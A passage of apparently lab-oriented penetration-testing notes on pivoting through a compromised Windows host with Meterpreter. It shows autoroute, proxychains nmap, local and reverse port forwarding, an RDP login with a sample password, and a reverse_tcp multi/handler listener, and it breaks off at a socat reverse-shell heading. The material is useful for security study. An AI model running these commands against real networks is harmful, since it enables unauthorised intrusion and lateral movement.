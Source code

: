 ```
[*] Use the -p option to list all active routes
```
Listing Active Routes with AutoRoute
```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```
Testing Proxy & Routing Functionality
```
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
### Port Forwarding
Port forwarding can also be accomplished using Meterpreter's portfwd module.
Creating Local TCP Relay
```
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
Connecting to Windows Target through localhost
```
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
Netstat Output
```
netstat -antp
```
### Meterpreter Reverse Port Forwarding
Reverse Port Forwarding Rules
```
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
Configuring & Starting multi/handler
```
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081
```
## Socat Redirection with a REverse Shell
